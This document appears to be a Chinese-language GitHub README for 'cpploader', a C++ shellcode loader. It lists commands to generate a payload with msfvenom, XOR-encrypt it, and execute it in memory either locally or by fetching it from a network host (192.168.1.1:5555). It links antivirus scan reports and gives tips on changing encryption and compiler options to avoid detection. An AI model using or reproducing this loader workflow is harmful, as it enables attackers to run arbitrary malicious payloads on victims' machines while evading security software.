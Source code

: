 # cpploader

shellcode 内存加载器 C++编写.

## usage

生成 payload

```
msfvenom -p windows/exec CMD=calc.exe -f raw -o calc.bin
```

加密 payload (默认 xor)

```
cppencoder.exe calc.bin enc.bin
```

`cpploader` 本地执行.

```
cpploader.exe enc.bin
```

`cppnerloader` 网络执行.

```
cppnetloader.exe 192.168.1.1 5555
```

## report

在线杀软扫描报告.

`cpploader`

[VirScan](http://r.virscan.org/language/zh-cn/report/d968bcfa2e2d9e1e29bf45c95c51f60f)

[VirusTotal](https://www.virustotal.com/gui/file/a56d0da8784f1ec01c354e7a0cfd2d004b36b509c266d344b25b2c5e7d458066/detection)

`cppnetloader`

[VirScan](http://r.virscan.org/language/zh-cn/report/092783011de845c8595b0d1ce5b56b8e)

[VirusTotal](https://www.virustotal.com/gui/file/992011c67059117a832b3e6cf7c16226046d42673f72d90cbf28aa18ab5a0ee5/detection)

# other

[C++ ShellCode 加载器](https://exp10it.cn/#/posts/64)

编码/加密方式可自行发挥.

更改 vs 编译选项缩小体积.

自己写效果更好.



